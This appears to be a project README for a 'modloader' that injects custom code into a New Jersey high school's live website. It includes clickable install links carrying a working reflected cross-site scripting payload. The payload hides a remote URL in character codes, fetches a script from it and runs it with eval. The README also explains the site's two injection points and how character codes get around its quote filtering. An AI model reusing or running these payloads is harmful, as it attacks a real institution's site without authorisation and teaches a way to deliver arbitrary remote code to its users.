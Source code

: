 ${{\color{#a80f1f}\Huge{\textsf{R}}}}{{\color{#a80d24}\Huge{\textsf{H}}}}{{\color{#a80c2a}\Huge{\textsf{S}}}}{{\color{#a80b2e}\Huge{\textsf{-}}}}{{\color{#a70c33}\Huge{\textsf{M}}}}{{\color{#a70d38}\Huge{\textsf{o}}}}{{\color{#a60f3c}\Huge{\textsf{d}}}}{{\color{#a51241}\Huge{\textsf{l}}}}{{\color{#a31445}\Huge{\textsf{o}}}}{{\color{#a21749}\Huge{\textsf{a}}}}{{\color{#a01a4d}\Huge{\textsf{d}}}}{{\color{#9e1d51}\Huge{\textsf{e}}}}{{\color{#9c2055}\Huge{\textsf{r}}}}$
<br><br>An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

> [!WARNING]  
> ***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

## Installing
<a href="https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>">
  <img src="images/rps-RHS-watch.png" width="100" height="100" alt="Click To Install">
</a><br><br>Click the circle.

## Features
- Completely custom theme/plugin support using js/css with headers for name, author, description, and version
- Saving state of enabled plugins/themes and loading them on site launch
- CTRL + Y keybind to wipe everything in the case of something going wrong or a mod goes haywire
- Floating Monaco text editor window (vscode) built in to the site to develop and edit mods in-site
- As this is unfinished, this is not the full list of features. more will be added soon.

## Currently working on:
- Timer improvements & Bunch of smaller mods [DONE, Will be pushed to store, check ``/mods``]
- Store to one-click download mods, the Mod Library [Being designed]

## Planned (by priority)
- Groups of mods in folders where the entire folder can be toggled on/off
- Store should have some sort of account based verification but accounts get blocked because the domain administrator has to allow sign-ins. I'm not exactly sure how to get around this.
   - The account based system for store will be postponed until later, the plan to do so is using external email verification via an external account, probably automated with something like firebase.
- Electron app

# [MOD MAKING GUIDE](https://github.com/PoyOzk/RHS-Modloader/wiki)

## OLD INSTALLATION METHOD

~~As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.~~
USE THE REGULAR INSTALLATION METHOD IT'S BETTER IN EVERY WAY

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

## How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
